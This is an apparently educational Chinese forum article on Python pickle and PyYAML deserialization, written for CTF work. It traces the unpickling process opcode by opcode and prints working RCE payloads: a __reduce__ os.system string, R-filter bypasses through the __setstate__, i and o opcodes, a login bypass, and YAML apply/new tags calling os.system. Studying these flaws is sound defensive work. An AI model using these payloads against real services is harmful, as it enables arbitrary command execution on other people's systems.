# CTF 中 Python pickle+yaml 反序列化深入分析 - 先知社区

CTF 中 Python pickle+yaml 反序列化深入分析

- - -

# Pickle 的作用

1、pickle 包是 python 用于进行反序列化和序列化的，用 c 进行编写，因此运行速度效率非常高。Python 还有其它的一些序列号库如 PyYAML、Shelve 等，但是都存在由于编码不恰当导致的反序列化漏洞。

2、在编程语言中，各类语言要存储一些复杂的内容，比如对象，数组，列表等，以便随时写和取，会是一件比较麻烦的事情。因此都会想办法将这些复杂的东西如对象序列化成易于存储和导出的东西，就比如 Pickle 会将其存储为一串字符串，然后取出的时候将字符串还来即可。

例子：

```plain
import pickle


class B():
    def __init__(self, num, passwd):
        self.num = num
        self.passwd = passwd


x = B('123', 'password')
print(pickle.dumps(x, protocol=0))
print(pickle.dumps(x, protocol=2))
print(pickle.dumps(x, protocol=3))
print(pickle.dumps(x))
# b'ccopy_reg\n_reconstructor\np0\n(c__main__\nB\np1\nc__builtin__\nobject\np2\nNtp3\nRp4\n(dp5\nVnum\np6\nV123\np7\nsVpasswd\np8\nVpassword\np9\nsb.'
# b'\x80\x02c__main__\nB\nq\x00)\x81q\x01}q\x02(X\x03\x00\x00\x00numq\x03X\x03\x00\x00\x00123q\x04X\x06\x00\x00\x00passwdq\x05X\x08\x00\x00\x00passwordq\x06ub.'
# b'\x80\x03c__main__\nB\nq\x00)\x81q\x01}q\x02(X\x03\x00\x00\x00numq\x03X\x03\x00\x00\x00123q\x04X\x06\x00\x00\x00passwdq\x05X\x08\x00\x00\x00passwordq\x06ub.'
# b'\x80\x04\x95:\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x01B\x94\x93\x94)\x81\x94}\x94(\x8c\x03num\x94\x8c\x03123\x94\x8c\x06passwd\x94\x8c\x08password\x94ub.'
```

> 可以看到通过 dumps() 打包后的对象存储为的字符串看上去十分复杂。目前 pickle 有四个版本 0，2，3，4,5 不同的版本中存储的结果都不相同，这里默认是最高 4 版本，一般 0 号版本更易于人类阅读。2 号版本与 3 号版本差别很小，4 号版本多了一些东西，但是本质上没有太大改动，并且 pickle 对不同的版本都是兼容的，无论是上面版本，通过 pickle.loads() 都能够进行还原。

# pickle 反序列化

pickle.loads() 即 pickle 反序列化，调用的是底层的\_Unpickler 类。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211032-1ffbb6c4-b6cc-1.png)

> 从源码可以看出 load 和 loads 的区别，load() 能够用于在文件解析序列化的信息，而 loads() 则是用于从序列化字节流中解析对象信息，但是无论是那个，最终都丢给了\_Unpickler.load() 进行反序列化的处理。

至于 Unpickler 在反序列化的过程中，究竟在干些什么事情，可以从它的源码中简略知道，它主要用于维护栈和存储区，栈是核心的数据结构，所有的数据结构几乎都在栈中，当前栈主要维护栈顶的信息，而前须栈用于维护下层信息。存储区相当于内存，用于存储变量，是数组，以下标为索引每一个单元存储东西。

# pickletools 和反序列化流程

pickletools 是 python 自带的 pickle 调试器，通过 pickletools 可以很清楚的看到 pickle 编译一个字符串的完整过程，利用它可以更加清晰的了解 pickle 是如何对字符串进行解析的，以上面代码为例子：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211037-232379a4-b6cc-1.png)

```plain
0: \x80 PROTO      4
    2: \x95 FRAME      58
   11: \x8c SHORT_BINUNICODE '__main__'
   21: \x94 MEMOIZE    (as 0)
   22: \x8c SHORT_BINUNICODE 'B'
   25: \x94 MEMOIZE    (as 1)
   26: \x93 STACK_GLOBAL
   27: \x94 MEMOIZE    (as 2)
   28: )    EMPTY_TUPLE
   29: \x81 NEWOBJ
   30: \x94 MEMOIZE    (as 3)
   31: }    EMPTY_DICT
   32: \x94 MEMOIZE    (as 4)
   33: (    MARK
   34: \x8c     SHORT_BINUNICODE 'num'
   39: \x94     MEMOIZE    (as 5)
   40: \x8c     SHORT_BINUNICODE '123'
   45: \x94     MEMOIZE    (as 6)
   46: \x8c     SHORT_BINUNICODE 'passwd'
   54: \x94     MEMOIZE    (as 7)
   55: \x8c     SHORT_BINUNICODE 'password'
   65: \x94     MEMOIZE    (as 8)
   66: u        SETITEMS   (MARK at 33)
   67: b    BUILD
   68: .    STOP
highest protocol among opcodes = 4
```

> 可以看到反编译出来的过程有很多\\x这样奇奇怪怪的字符，在 pickle 源码中可以十分清晰的看到这些字符代表的不同的含义，并且不同的版本会有不一样的字符。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211044-27500d26-b6cc-1.png)

那么这些操作符究竟代表着什么意思，机器看到这些操作符又会进行怎么样的操作呢，下面就来一条一条指令的解读分析一下。

1、首先读取到字符串的第一个字节即\\x80，这个操作符在版本 2 中被假如，用于辨别 pickle 对应的版本信息，读取到\\x80 后会立即读取\\x04，代表着是依据 4 版本 pickle 序列化的字符串。

2、随后继续读取下一个字符\\x95 和\\x58，这是在 pickle4 后引入的新概念，与具体的功能无关，用于某些情况下进行性能的优化，\\x95 表示引入了一个新的帧，58 表示这个帧的大小为 58 字节，但是这个 58 是放到 8 字节里面作为 32 字节存储的，因此在序列化后会有多的\\x00

3、读取\\x8c，表示将一个短的字符压入栈中，这个字符就是后面读取的\_\_main\_\_

4、\\x94 表示将刚才读取的短字符\_\_main\_\_即当前栈顶的数据暂存到一个列表中，而这个列表被叫做 memo，通过组合使用 memo 和栈扩大功能

5、随后继续读取\\x94 和\\x01B 即压入一个短字符即空对象 B 入栈顶，将栈顶暂时存储到列表 memo 中。

6、再读取\\x93，表示某个堆栈，可以 GLOBAL 操作符根据名称读取堆栈中的变量

7、车轮继续向前，读取到) 操作符，表示把一个空的 tuple 压入当前栈中，处理完这个操作符后会遇到\\x81，表示从栈中弹出一个元素，记为 args，再弹出一个元素记为 cls，接下来执行 cls.\_\_new\_\_(cls,\*args)，简单来说就是利用栈中弹出的一个参数和一个类，通过参数对类进行实例化，然后将类压入栈中，这里指的就是被实例化的 B 对象，目前是一个空对象。

8、继续分析读到了}，表示将空的 dict 字典压入栈中，然后遇到 MARK 操作符，这个 mark 操作符干的事情被称为 load\_mark：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211111-37630e3e-b6cc-1.png)

> 从代码可以看出它操作是，把当前栈作为整体即作为 list，压入到前序栈中，然后把当前栈清空，至于为何存在前序栈和当前栈两部分，正如前面所说前序栈保存了程序运行至今的（不在顶层的）完整的栈信息，而当前栈专注于处理顶层的事件。

有 load\_mark，自然会有 pop\_mark()，用于与它相反的操作。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211119-3c13063c-b6cc-1.png)

> 记录当前栈的信息，返回，并弹出前序栈的栈顶覆盖当前栈，因此可知，load\_mark() 和 pop\_mark() 主要用于两个栈之间进行不同的切换，用于栈管理。

9、随后则是继续指定读取字符串并压入栈中存储起来的操作，分别进行了四次，当前栈的顶到顶分别为 num，123，passwd，password，而前序栈只有一个元素，则是我们是空 B 实例和一个空的 dict。

10、继续往下走，遇到了 u 操作符，它主要用于给实例赋值操作，详细过程如下：

（1）调用 pop\_mark，将当前栈的内容记录起来，然后将将前序栈覆盖掉当前栈，即执行完后，会有一个 item=\[num，123，passwd，password\]，当前栈存放的则是空 B 实例和空 dict。

（2）拿到当前栈的末尾元素，即那个空的 dict，两个一组的读取 item 里面的元素，前者作为 key 后者作为 value，则此时空的 dict 变为{'num':'123','passwd':'password'}，所以当前栈存放的就是空 B 实例和这个字典

11、车轮继续向前，遇到了 b 字符即 build 指令，它将当前栈存进 state 然后弹掉，将当前栈的栈顶记为 inst，弹掉，利用 state 的值更新实例 inst，简单来说就是通过 dict 中的数据实例化 B 对象的值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211124-3f4aaad0-b6cc-1.png)

> 从代码中可以看到，如果 inst 中拥有\_\_setstate\_\_方法，则会将 state 交给 setstate() 方法进行处理，否则就将 inst 中的内容，通过遍历的方法，将 state 的内容合并到 inst\_dict 字典中。

12、最后全部做完后，当前栈就剩下了完整的 B 实例，然后读取下一个。指令代表着 STOP，即反序列化结束。

# 漏洞产生 (**reduce**)

简单了解了 pickle 反序列化的大概原理和流程，下面就可以分析下漏洞产生的原理。在 CTF 比赛中，pickle 反序列化大多数都可以直接利用\_\_reduce\_\_方法，可以通过\_\_reduce\_\_构造恶意的字符串，从而在被反序列化的时候，导致\_\_reduce\_\_被执行，从而操作 RCE。我们以下面代码为例：

```plain
import os
import pickle
import pickletools

class B():
    def __init__(self, num, passwd):
        self.num = num
        self.passwd = passwd
    def __reduce__(self):
        return (os.system,('dir',))

# x = B('123', 'password')
# payload=pickle.dumps(x)
# print(payload)
# pickletools.dis(payload)
pickle._loads(b'\x80\x04\x95\x1b\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x03dir\x94\x85\x94R\x94.')
```

首先可以确定的是，代码可以触发 RCE 导致 dir 命令的执行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211133-4450bf60-b6cc-1.png)

从源码中可以看到，\_\_reduce\_\_方法实际上对应的指令码是 R：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211140-48b701e0-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211144-4b208c76-b6cc-1.png)

对反序列化的过程进行调试，会发现它进入了 load\_reduce() 方法，从此方法不难发现原因

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211147-4d339c10-b6cc-1.png)

> 此函数即 R 指令码对应的函数，它做的操作主要是将栈顶标记位 args，然后取当前栈栈顶的元素标记位 func，然后以 args 为参数，执行函数 func，再把结果压进了当前栈中，即 func 对应例子中的 system，而\*args 对应的是 dir，导致了 RCE。

# R 指令的绕过

很显然的一件事情就是\_\_reduce\_\_函数之所以能够达到 RCE，原因是 R 操作码对应的方法 load\_reduce() 的不恰当所产生的，那么我们只要把操作码 R 给过滤掉，\_\_reduce\_\_导致的 RCE 显然就不能够继续执行，那么该如何进行绕过呢，那么就得把目标放在其它方向的操作码中，就比如我们的 C 指令操作码，主要用于通过 find\_class 方法获得一个全局变量。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211156-528c92c0-b6cc-1.png)

我们以下方的代码为例：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211200-54db8a90-b6cc-1.png)

```plain
import pickle, base64
import A   

class B():
    def __init__(self, num, passwd):
        self.num = num
        self.passwd = passwd

    def __eq__(self,other):
        return type(other) is B and self.passwd == other.passwd and self.num == other.num

def check(data):
    if (b'R' in data):
        return 'NO REDUCE!!!'
    x = pickle.loads(data)
    if (x != B(A.num, A.passwd)):
        return 'False!!!'
    print('Now A.num == {} AND A.passwd == {}.'.format(A.num, A.passwd))
    return 'Success!'

print(check(base64.b64decode(input())))
```

> 题中禁用了 R 指令，可以通过 C 指令完成简单的登录绕过功能，此处 A 文件中随意设置一个 num 和 passwd

1.  我们首先来看看一个正常 B 类进行序列化后的效果

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211206-582908da-b6cc-1.png)

> 可以看到序列化后的结果为

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(\x8c\x03numK\x01\x8c\x06passwd\x8c\x05aiwinub.'
```

> 将序列化的结果稍微进行改动，将 26 和 39 对应的 K 指令码改为 C 的指令码，这里的 K 指令码表示将 1 字节的无符号整形数据压入栈中，就可以实现登录绕过。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211221-615ff706-b6cc-1.png)

> 可以看到改动后的指令将 26 和 44 变成了 c 指令引用全局变量，即上面 A 类中的变量实现了绕过。n

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211226-643deab4-b6cc-1.png)

这里的 C 指令主要基于 find\_class 方法进行全局变量的寻找，假如 find\_class 被重写，只允许 c 指令包含\_\_main\_\_这个 module，该如何绕过。

由于 GLOBAL 指令引入的变量，是在原变量中的引用，在栈中修改它的值，会导致原变量的值也被修改，因此就可以做以下操作：

（1）通过\_\_main\_\_.A 引入这个 module  
（2）把一个 dict 压进栈中，其内容为{‘num’: 6, ‘passwd’: ‘123456’}  
（3）执行 b 指令，其作用是修改\_\_dict\_\_中的内容，在\_\_main\_\_.A.num 和\_\_main\_\_.A.passwd 中的内容已经被修改了  
（4）将栈清空，也就是弹掉栈顶  
（5）照抄正常的 B 序列化之后的字符串，压入一个正常的 B 对象，num 和 passwd 分别为 6 和 123456 即可通过。

接下来就是修改，首先将原来得到的值进行一定的修改

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(\x8c\x03numK\x01\x8c\x06passwd\x8c\x05aiwinub.'
```

首先要引入\_\_main\_\_.A 这个 module，并将一个 dict 压入栈中 b'\\x80\\x04\\x95+\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x8c\\x08\_\_main\_\_\\x8c\\x01B\\x93) 变为 b'\\x80\\x04\\x95+\\x00\\x00\\x00\\x00\\x00\\x00\\x00c\_\_main\_\_\\nA\\n}

随后将栈清空，将压入正常的 B，  
\\x81}(\\x8c\\x03numK\\x01\\x8c\\x06passwd\\x8c\\x05aiwinub.'变为 (Vnum\\nK\\x06Vpasswd\\nV123456\\nub0c\_\_main\_\_\\nB\\n)\\x81}(\\x8c\\x03numK\\x06\\x8c\\x06passwd\\x8c\\x06123456ub.'

完整的 payload 为

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00c__main__\nA\n}(Vnum\nK\x06Vpasswd\nV123456\nub0c__main__\nB\n)\x81}(\x8c\x03numK\x06\x8c\x06passwd\x8c\x06123456ub.'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211234-68bed242-b6cc-1.png)

可以看到确实绕过成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211239-6bda73a0-b6cc-1.png)

> 简单来说就是先将 A 压入栈中，并传入设定好的 dict() 字典，这样 A 的值也会被改变，随后再清空栈，压入与 A 相同的 B 类的值即可完成绕过。

像以上这种只是通过全局变量来进行绕过，那么有没有可能在不出现 R 指令的情况下进行命令执行呢，上面我们说过 BUILD 指令在 load\_build 函数中，假如 inst 拥有\_\_setstate\_\_方法，则将 state 交给\_\_setstate\_\_方法来处理，否则会将其合并到 dict 中。也就是说，我们可以将\_\_setstate\_\_造为 os.system() 等命令执行函数，然后将 state 变为要执行的命令，依旧能够达到命令执行的效果。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211243-6e605d9c-b6cc-1.png)

我们依旧拿原来得到的序列化串进行修改，在 B 类实例化中添加\_\_setstate\_\_的值为 os.system，然后再压入要执行的命令即可，修改后的 payload 为

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(V__setstate__\ncos\nsystem\nubVdir\nb.'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211251-72fdada0-b6cc-1.png)

> 传入这个 payload，首先 stack 弹出栈顶即为将 state 值赋为\_\_setstate\_\_这个字典，然后进入 state 的字典循环，将弹出的 key 即\_\_setstate\_\_和 value 即 system 合并到 inst\_dict 中，到第二次循环时，inst 就能够取到\_\_setstate\_\_的值，然后此时 stack 为 B 实例化对象列表，弹出的值为 dir，然后就会进入 setstate(state) 执行 system(dir)

可以看到命令执行是成功的，这里报错是因为没有给 B 实例实例化值，但是不妨碍命令的执行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211259-77ac5dba-b6cc-1.png)

## 通过 i 和 o 指令触发

观察 i 指令所使用到的函数，i 指令主要用于 BUILD 和 push 一个实例化的类，主要依赖于函数 find\_class()，与它相关函数如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211305-7b8f3092-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211309-7ddfb3a8-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211312-7fd01afe-b6cc-1.png)

> 可以看到在 load\_inst() 函数中会调用\_instantiate() 方法，而\_instantiate() 动态的实例化了一个类，假如令 kclass 为 system，然后令\*arg 为我们要执行的命令，也可以触发 RCE，而 pop\_mark() 则是前序栈中的值赋给当前栈并获取当前栈的内容。

依旧使用以上的 payload 进行修改：

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(Vdir\nios\nsystem\n0c__main__\nB\n)b.'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211347-946d9fea-b6cc-1.png)

> 简单来说，通过 i 指令将 os.system 推入 inst，进而使得 find\_class(os,system) 找到 kclass 为 os.system()，然后再通过 pop 触发 pop\_mark() 获取前序栈的 dir 内容，进入实例化类后变成了 system(dir) 触发了命令执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211353-981907d8-b6cc-1.png)

命令执行成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211357-9a6034c6-b6cc-1.png)

同理 o 指令也可以，o 指令也是可以用于实例化一个类，与它相关的函数为：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211401-9d0f3afa-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211405-9f36bc5e-b6cc-1.png)

> 这里同样也是控制\_\_instantiate() 函数的参数和类名，不同的是这里的类名和参数都由当前栈中弹出，因此可直接将 os.system 和 dir 一起压入栈中，经过 Pop\_mark() 后返回的就是一个 system 和 dir 的列表，随后 cls 经过 pop(0) 弹出的是先进的 system，剩下的栈即 args 就为 dir。进而触发 RCE

修改 payload 为如下：

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(cos\nsystem\nX\x03\x00\x00\x00diro0b.'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211412-a32972e8-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211416-a5a83ea0-b6cc-1.png)

命令执行成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211421-a88a1a44-b6cc-1.png)

# Yaml

既然 pickle 研究了，python 还有一种序列化和反序列化的操作是通过 yaml 进行了，yaml 也存在着能够直接 RCE 的危险，不过后来官方对 Yaml 进行反序列化的时候进行了一定的修复和限制，增加了一个 Loder 参数来对反序列化中调用的类型进行了限制。

下面我们来简单调试，分析一下 yaml 反序列化触发 RCE 的流程：

```plain
import yaml

print(yaml.load('!!python/object/new:os.system ["dir"]',Loader=yaml.UnsafeLoader))
# !!python/object/apply:os.system ["calc.exe"]
# !!python/object/new:os.system ["calc.exe"]
# !!python/object/new:subprocess.check_output [["calc.exe"]]
# !!python/object/apply:subprocess.check_output [["calc.exe"]]
```

> 这里的 Loader 参数已经是必须设置 Yaml 的加载器，不设置运行是会进行报错的，有普通的 Loader、Full\_Loader 等等，不过还是给使用者留下了不安全能够动态创建类以及调用函数的 Loader 以及 unsafe\_load() 方法。

1、首先第一步会进入 load 方法中，先初始化了 UnsafeLoader 这个类，包括初始化解析器，构造器，读取了 stream 等等。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211428-accfa024-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211431-aed96300-b6cc-1.png)

2、随后就进入了 get\_single\_data 方法，方法中会调用 get\_single\_node 方法，大概就是获取到 yaml 中的节点，最后讲返回一个 StreamStartEvent()，里面存放着 yaml 中要反序列化的内容。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211435-b0efdc0a-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211441-b489c498-b6cc-1.png)

3、最终经过了 get\_single\_node 方法返回的是一个文档的参数，里面存放着 yaml 中的 tag 以及节点的值 value 即我们的 dir，这里是以序列节点进行存放的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211448-b8b3747e-b6cc-1.png)

4、这里获取到了节点即不为空，就会通过 node 来进行类似于构造器的函数，函数经过了一系列的判断，会进入到一个循环中，将我们节点的 tag 即'yaml.org,2002:python/name:'前缀与所有的节点前缀进行比较，如果相等则将其赋值给 constructor，简单来说就是获取前缀相应的构造器，然后中止循环。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211455-bcb8d294-b6cc-1.png)

5、跳出 for 循环后，就会通过获取到的相应构造器进行构造，进入相应的方法之中，这里进入的是 construct\_python\_object\_new 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211459-bf340f70-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211502-c1572da0-b6cc-1.png)

6、通过 construct\_sequence 方法获取到了节点中的 value，最终都会进入到 make\_python\_instance 方法中，然后问题就出现在了这个方法中，在这个方法中，会通过 find\_python\_name 方法将 tag 的值通过。分割后，分离出模块的名称，将模块导入进来，这个模块必须是 sys 能够找到的，否则会报错，随后通过 getattr 方法，getattr(os,system) 的形式返回 os.system()

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211508-c4906496-b6cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211513-c7766b24-b6cc-1.png)

7、继续往下走，此时的 cls 为返回的 os.system，然后 args 参数又是可控的，即可我们 yaml 的节点的 value，因此触发了 RCE，当然这里会先进行 Loader 的判断，如果不是 unsafe 的 Lodaer，会进行报错。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240119211517-c9e5bdf6-b6cc-1.png)

# 总结

无论是 pickle 还是 yaml，能够进行 RCE 都是因为在反序列化过程中执行的函数部分 a(b) 这类的形式两个参数都可控导致的，yaml 相对来说比较简单，能够直接提取 tag 和 value 进行 RCE，但是 pickle 可能相对要繁琐一点，需要理解清每个字节码的作用，对应的执行函数以及流程，手搓 opcode 才能达到效果。不过 yaml 官网应该是对其进行了限制了，pickle 好像还没有进行任何限制。
